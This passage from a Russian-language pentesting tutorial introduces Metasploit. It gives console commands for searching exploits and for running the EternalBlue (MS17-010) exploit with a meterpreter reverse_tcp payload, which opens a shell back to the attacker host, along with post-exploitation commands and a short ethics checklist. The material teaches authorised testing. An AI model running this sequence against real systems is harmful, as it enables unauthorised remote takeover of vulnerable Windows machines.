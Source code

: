 **Поиск exploit:**
```
msf6 > search apache
msf6 > search type:exploit platform:linux
msf6 > search cve:2021-44228  # Log4Shell
```

**Использование exploit:**
```
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 exploit(...) > show options
msf6 exploit(...) > set RHOSTS 192.168.1.10
msf6 exploit(...) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf6 exploit(...) > set LHOST 192.168.1.5
msf6 exploit(...) > exploit
```

**Payloads:**
- **shell** — простая командная строка
- **meterpreter** — продвинутый интерактивный shell
- **reverse_tcp** — жертва подключается к атакующему (bypass firewall)
- **bind_tcp** — атакующий подключается к жертве

#### Практический пример: EternalBlue

**MS17-010 (EternalBlue)** — знаменитая уязвимость SMB (WannaCry использовал):

```
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 exploit(ms17_010_eternalblue) > set RHOSTS 192.168.1.10
msf6 exploit(ms17_010_eternalblue) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf6 exploit(ms17_010_eternalblue) > set LHOST 192.168.1.5
msf6 exploit(ms17_010_eternalblue) > check  # Проверить уязвимо ли
msf6 exploit(ms17_010_eternalblue) > exploit
```

**После успешного exploit:**
```
meterpreter > sysinfo
meterpreter > getuid
meterpreter > shell
```

#### Ethical использование

**В pentest:**
- ✅ Verify известные уязвимости
- ✅ Proof of Concept (PoC)
- ✅ С разрешения
- ❌ НЕ для real damage
- ❌ НЕ без scope

---

### 💻 Практика: Metasploit Basics
